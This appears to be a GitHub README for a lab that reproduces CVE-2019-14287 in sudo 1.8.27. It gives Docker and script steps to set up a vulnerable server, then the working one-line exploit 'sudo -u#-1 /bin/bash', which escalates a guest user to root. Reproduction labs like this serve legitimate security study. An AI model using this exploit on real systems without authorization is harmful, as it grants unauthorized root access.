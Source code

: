 # CVE-2019-14287

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-14287>


## PoC
<https://www.sudo.ws/alerts/minus_1_uid.html>


## Environment used

* Ubuntu 18.04.4 LTS
* [Sudo 1.8.27](https://www.sudo.ws/dist/sudo-1.8.27.tar.gz)


## Reproduction

* Server
    - Docker:
        ```shell script
        cd Docker\ version/ && docker build -t cve-2019-14287 .
        bash start.sh
        bash stop.sh  
        ```
      
    - Script:
        ```shell script
        cd Script\ version && bash installation.sh
        ```

* Terminal:
    ```shell script
    ssh <Server IP> -l guest -p 8022
    sudo -u#-1 /bin/bash 
    ```
    The result is the user *guest* as escalated to *root*.
